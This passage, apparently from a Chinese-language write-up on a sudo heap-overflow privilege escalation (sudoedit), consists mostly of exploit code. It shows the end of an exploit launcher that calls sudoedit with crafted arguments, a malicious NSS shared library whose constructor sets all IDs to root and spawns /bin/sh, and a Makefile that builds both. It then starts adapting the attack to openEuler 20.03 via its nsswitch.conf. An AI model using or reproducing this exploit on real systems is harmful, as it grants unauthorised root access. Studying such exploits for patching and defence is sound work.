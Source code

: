 ```

    printf("** pray for your rootshell.. **\n");

    execve(target-&gt;sudoedit_path, s_argv, s_envp);
    return 0;
`}`
```

```
//lib.c
#include &lt;unistd.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;

static void __attribute__ ((constructor)) _init(void);

static void _init(void) `{`
    printf("[+] bl1ng bl1ng! We got it!\n");
    setuid(0); seteuid(0); setgid(0); setegid(0);
    static char *a_argv[] = `{` "sh", NULL `}`;
    static char *a_envp[] = `{` "PATH=/bin:/usr/bin:/sbin", NULL `}`;
    execv("/bin/sh", a_argv);
`}`
```

```
all:
    rm -rf libnss_X
    mkdir libnss_X
    gcc -o sudo-hax-me-a-sandwich hax.c
    gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_.so.2' lib.c
clean:
    rm -rf libnss_X sudo-hax-me-a-sandwich
```



## For open euler 20.03

系统类似于`centos`，我们看一下`/etc/nsswitch.conf`即配置文件

```
passwd:      sss files systemd
shadow:     files sss
group:       sss files systemd

hosts:      files dns myhostname

bootparams: files

ethers:     files
netmasks:   files
networks:   files
protocols:  files
rpc:        files
services:   files sss

netgroup:   sss

publickey:  files

automount:  files sss
aliases:    files
```
